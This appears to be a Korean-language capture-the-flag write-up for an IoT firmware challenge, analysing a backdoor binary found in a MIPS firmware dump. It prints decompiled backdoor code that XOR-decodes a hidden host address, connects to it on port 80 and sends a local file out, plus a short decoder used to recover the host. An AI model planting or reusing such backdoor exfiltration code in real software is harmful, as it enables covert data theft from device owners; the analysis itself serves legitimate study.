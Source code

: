# IOT - Firm #2

MIPS 환경으로 구성 된 펌웨어 덤프를 제공해준다. 

덤프에서 /usr/bin에 b4cKD00R라는 바이너리가 제공된다.

![backdoor](https://github.com/Demon-KR/Demon-CTF-Writeup/blob/main/WORMCON0x01/iot/Firmware-2/.resource/backdoor-binary.png)

바이너리를 열어보면, 어떤 함수에서 연산을 거쳐 복호화를 진행하고 그 값을 inet_addr에 대입한다. 이는 곧 공격에 이용 될 주소를 생성시키기 위한 과정으로 볼 수 있다.

해당 주소는 단순히 암호화 문자열과 1 바이트 XOR이 존재한다. 

b4cKD00R의 코드는 다음과 같다.

- Code #1

    ```c
    int __cdecl main(int argc, const char **argv, const char **envp)
    {
      struct sockaddr addr; // [rsp+0h] [rbp-40h]
      _IO_FILE *v5; // [rsp+18h] [rbp-28h]
      int v6; // [rsp+20h] [rbp-20h]
      int fd; // [rsp+24h] [rbp-1Ch]
      char *filename; // [rsp+28h] [rbp-18h]
      int v9; // [rsp+34h] [rbp-Ch]
      char *cp; // [rsp+38h] [rbp-8h]

      cp = (char *)fdsrygb();
      v9 = 80;
      filename = "send.txt";
      fd = socket(2, 1, 0);
      if ( fd < 0 )
      {
        perror("[-]Error in socket");
        exit(1);
      }
      puts("[+]Server socket created successfully.");
      addr.sa_family = 2;
      *(_WORD *)addr.sa_data = v9;
      *(_DWORD *)&addr.sa_data[2] = inet_addr(cp);  // mlskxksi.vulnfreak.org
      v6 = connect(fd, &addr, 0x10u);
      if ( v6 == -1 )
      {
        perror("[-]Error in socket");
        exit(1);
      }
      puts("[+]Connected to Server.");
      v5 = fopen(filename, "r");
      if ( !v5 )
      {
        perror("[-]Error in reading file.");
        exit(1);
      }
      send_file(v5, fd);
      puts("[+]File data sent successfully.");
      puts("[+]Closing the connection.");
      close(fd);
      return 0;
    }
    ```

- Code #2

    ```c
    __int64 fdsrygb(void)
    {
      char v1[8]; // [rsp+0h] [rbp-20h]

      strcpy(v1, "=<#;(;#9~&%<>6\"51;~?\"7");
      return dgdcvnuosd(v1);
    }

    __int64 __fastcall dgdcvnuosd(char *a1)
    {
      __int64 v2; // [rsp+10h] [rbp-30h]
      __int64 v3; // [rsp+18h] [rbp-28h]
      int v4; // [rsp+20h] [rbp-20h]
      __int16 v5; // [rsp+24h] [rbp-1Ch]
      int v6; // [rsp+34h] [rbp-Ch]
      char v7; // [rsp+3Bh] [rbp-5h]
      int i; // [rsp+3Ch] [rbp-4h]

      v7 = 80;
      v2 = 0LL;
      v3 = 0LL;
      v4 = 0;
      v5 = 0;
      v6 = strlen(a1);
      for ( i = 0; i < v6; ++i )
        *((_BYTE *)&v2 + i) = v7 ^ a1[i];
      return 0LL;
    }
    ```

 익스플로잇 코드는 다음과 같다.

- Code #3

    ```c
    #include <stdio.h>
    #include <string.h>

    unsigned char test[1000] = "\x3d\x3c\x23\x3b\x28\x3b\x23\x39\x7e\x26\x25\x3c\x3e\x36\x22\x35\x31\x3b\x7e\x3f\x22\x37";

    int xor = 80;
    int main()
    {
    	for(int i=0; i<strlen((char *)test); i++)
    	{
    		test[i] ^= xor;
    		printf("%c",test[i]);
    	}
    }
    ```

Code #1에서 요구하는 주소로 접속하게 된다면, send.txt 파일을 열겠다는 행위가 보여지지만 이는 딱히 볼필요가 없다. 복호화 된 주소가 매핑 된 포트는 80포트이기 때문이다.

![firmware2-flag](https://github.com/Demon-KR/Demon-CTF-Writeup/blob/main/WORMCON0x01/iot/Firmware-2/.resource/firmware2-flag.png)

FILE: [https://drive.google.com/file/d/1Khw6__76SPGYuNMInHrYd6i67WnGycqO/view?usp=sharing](https://drive.google.com/file/d/1Khw6__76SPGYuNMInHrYd6i67WnGycqO/view?usp=sharing)

